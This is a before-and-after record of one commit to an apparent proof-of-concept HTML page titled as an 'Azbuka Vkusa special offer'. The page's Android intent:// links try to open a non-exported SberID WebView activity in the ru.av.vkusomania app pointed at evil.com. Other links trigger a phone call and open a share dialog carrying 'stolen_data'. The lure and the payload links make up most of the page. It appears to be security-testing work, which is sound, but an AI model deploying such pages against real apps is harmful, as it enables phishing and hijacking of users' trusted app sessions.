

Before and after one commit to Incidencer/poc-drive, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-652 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,16 +1,20 @@
 <html><body>
 <h1>Специальное предложение Азбука Вкуса</h1>
 
-<p><a href="intent://#Intent;action=android.settings.SETTINGS;end">
-  Тест 1 — Открыть настройки телефона
+<p><a href="intent://www.google.com/#Intent;scheme=https;action=android.intent.action.VIEW;end">
+  1. Открыть Google в браузере
 </a></p>
 
-<p><a href="intent://www.google.com/#Intent;scheme=https;action=android.intent.action.VIEW;end">
-  Тест 2 — Открыть Google в браузере
+<p><a href="intent://#Intent;action=android.intent.action.CALL;data=tel:+79991234567;end">
+  2. Инициировать звонок на номер
 </a></p>
 
-<p><a href="intent://#Intent;component=sberid.sdk.auth.view.activity.WebViewActivity;S.uri=https://evil.com;end">
-  Тест 3 — Открыть SberID WebView (non-exported)
+<p><a href="intent://#Intent;component=ru.av.vkusomania/sberid.sdk.auth.view.activity.WebViewActivity;S.uri=https://evil.com;end">
+  3. SberID WebView
+</a></p>
+
+<p><a href="intent://#Intent;action=android.intent.action.SEND;type=text/plain;S.android.intent.extra.TEXT=stolen_data;end">
+  4. Открыть share dialog с данными
 </a></p>
 
 </body></html>
```
